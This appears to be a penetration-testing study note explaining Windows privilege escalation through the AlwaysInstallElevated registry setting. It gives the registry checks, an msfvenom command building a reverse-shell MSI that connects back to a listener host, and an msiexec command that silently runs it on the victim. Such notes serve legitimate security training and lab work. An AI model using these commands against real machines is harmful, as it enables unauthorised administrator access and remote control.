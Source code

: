 # AlwaysInstallElevated

MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated \(i.e. admin\) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.

The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine: HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer and the current user: HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer If either of these are missing or disabled, the exploit will not work.

Use winPEAS to see if both registry values are set:

```text
winPEASany.exe quiet windowscreds
```

![](../../../../.gitbook/assets/image%20%28146%29.png)

Alternatively, verify the values manually:

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![](../../../../.gitbook/assets/image%20%28151%29.png)

{% hint style="info" %}
note that both of these registry key values should be set to 1. otherwise we cant use this attack vector.
{% endhint %}

Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:

```text
msfvenom -p windows/shell_reverse_tcp lhost=192.168.56.1 lport=5555 -f msi -o VirtualBox\ VMs/shares/installer.msi
```

send the reverse shell to victim machine and run the installer with msiexec:

```text
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

![](../../../../.gitbook/assets/image%20%28147%29.png)















